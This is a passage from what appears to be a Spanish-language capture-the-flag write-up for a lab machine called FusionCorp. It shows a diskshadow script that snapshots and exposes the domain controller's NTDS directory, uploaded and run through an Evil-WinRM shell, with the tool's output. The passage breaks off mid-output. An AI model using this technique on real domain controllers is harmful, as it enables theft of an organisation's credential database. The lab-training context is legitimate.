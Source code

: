             set verbose on;                               ---> Habilita la salida detallada 
            set context clientaccessible;                 ---> Especifica que las versiones cliente de Windows pueden utilizar la instantánea. Este contexto es persistente de forma predeterminada.
            set context persistent;                       ---> Especifica que la instantánea persiste al salir, restablecer o reiniciar el programa.
            begin backup;
            add volume C:\Windows\NTDS\ alias ntdsdrive;  ---> Agrega un volumen al conjunto de instantáneas, volúmenes que se van a copiar. 
            create;
            expose %ntdsdrive% X:;                        ---> Expone una instantánea persistente como letra de unidad, recurso compartido o punto de montaje.
            end backup;
            exit;

            
            *Evil-WinRM* PS C:\temp> upload content/script_shadow.txt                             
            Info: Uploading /home/kali/Desktop/ctf/try_ctf/FusionCorp/content/script_shadow.txt to C:\temp\script_shadow.txt                                     
            Data: 232 bytes of 232 bytes copied                                       
            Info: Upload successful!

        2)Ejecutamos script

            *Evil-WinRM* PS C:\temp> diskshadow /s script_shadow.txt
            Microsoft DiskShadow version 1.0
            Copyright (C) 2013 Microsoft Corporation
            On computer:  FUSION-DC,  10/15/2023 12:29:59 AM
            
            -> set verbose on
            -> set context clientaccessible
            -> set context persistent
            -> begin backup
            -> add volume C:\Windows\NTDS\ alias ntdsdrive
            -> create
            Excluding writer "Shadow Copy Optimization Writer", because all of its components have been excluded.
            Component "\BCD\BCD" from writer "ASR Writer" is excluded from backup,
            because it requires volume  which is not in the shadow copy set.
            The writer "ASR Writer" is now entirely excluded from the backup because the top-level
            non selectable component "\BCD\BCD" is excluded.
            
            * Including writer "Task Scheduler Writer":
                    + Adding component: \TasksStore
            
            * Including writer "VSS Metadata Store Writer":
                    + Adding component: \WriterMetadataStore
            
            * Including writer "Performance Counters Writer":
                    + Adding component: \PerformanceCounters
            
            * Including writer "System Writer":
                    + Adding component: \System Files
                    + Adding component: \Win32 Services Files
            
            * Including writer "WMI Writer":
                    + Adding component: \WMI
            